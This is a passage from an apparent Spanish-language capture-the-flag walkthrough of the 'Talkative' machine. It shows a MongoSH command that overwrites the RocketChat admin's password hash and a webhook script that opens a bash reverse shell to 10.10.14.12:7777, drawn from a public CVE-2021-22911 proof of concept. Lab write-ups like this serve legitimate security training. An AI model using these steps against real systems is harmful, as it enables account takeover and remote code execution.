 

![1](https://nik0sec.github.io/assets/img/sample/Talkative/29.png)


Una vez listo el túnel, nos vamos a tener que conectar a MongoDB con una utilidad llamada MongoSH, no viene instalada por defecto en Kali así que van a tener que leer la documentación de su instalación.


![1](https://nik0sec.github.io/assets/img/sample/Talkative/30.png)

Vemos unas bases de datos, ingresamos la DB llamada meteor y mostramos sus tablas:


![1](https://nik0sec.github.io/assets/img/sample/Talkative/31.png)


Hay un "_id" que nos indica que esta base de datos está siendo utilizada por el servicio RocketChat en el puerto 3000 y las contraseñas almacenadas está en hashes tipo Bcrypt. Por lo que tenemos la posibilidad de cambiar la contraseña del administrador con el siguiente comando:

```terminal
db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
```

La contraseña ahora será "12345"


![1](https://nik0sec.github.io/assets/img/sample/Talkative/32.png)



Ya que hemos ingresado al panel de RocketChat, vemos la versión y encontramos un exploit de NoSQL para esa versión https://github.com/CsEnox/CVE-2021-22911 donde explica detalladamente como explotar este fallo.



Por lo que ahora debemos ingresar en Administration y luego en Integrations:


![1](https://nik0sec.github.io/assets/img/sample/Talkative/33.png)

Luego en New Integration:

![1](https://nik0sec.github.io/assets/img/sample/Talkative/34.png) 

Ahora en Incoming WebHook:


![1](https://nik0sec.github.io/assets/img/sample/Talkative/35.png)

Lo más importante para modificar, es el parámetro "Post to channel" y "Post as" al igual que "Script Enabled" en True para que se ejecute nuestra shell reversa que sacamos del POC.

```terminal
const require = console.log.constructor('return process.mainModule.require')();
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.12/7777 0>&1"');
```
